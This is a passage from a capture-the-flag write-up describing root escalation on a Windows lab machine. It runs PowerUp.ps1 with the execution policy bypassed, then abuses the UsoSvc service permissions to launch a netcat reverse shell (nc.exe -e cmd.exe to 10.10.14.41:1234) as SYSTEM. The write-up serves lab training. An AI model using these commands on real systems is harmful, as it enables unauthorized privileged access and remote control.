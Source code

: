 There are a couple paths to root. The easiest is 

<h5 align="left">Method 1:</h5>

Upload the powershell script *PowerUp.ps1* (using the same technique we uploaded netcat with) and running it with

```
powershell -exec bypass -command "& {import-module .\powerup.ps1; invoke-allchecks}"
```

![powerup](/assets/img/writeups/remote_powerup.png)

We see the service permisions on UsoSvc are exploitable, and all we have to do is simply run the function it suggests using the same nc.exe we uploaded earlier to get a system shell

```
powershell -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc -Command 'c:\Users\Public\nc.exe 10.10.14.41 1234 -e cmd.exe'}"
```

![root1](/assets/img/writeups/remote_root1.png)
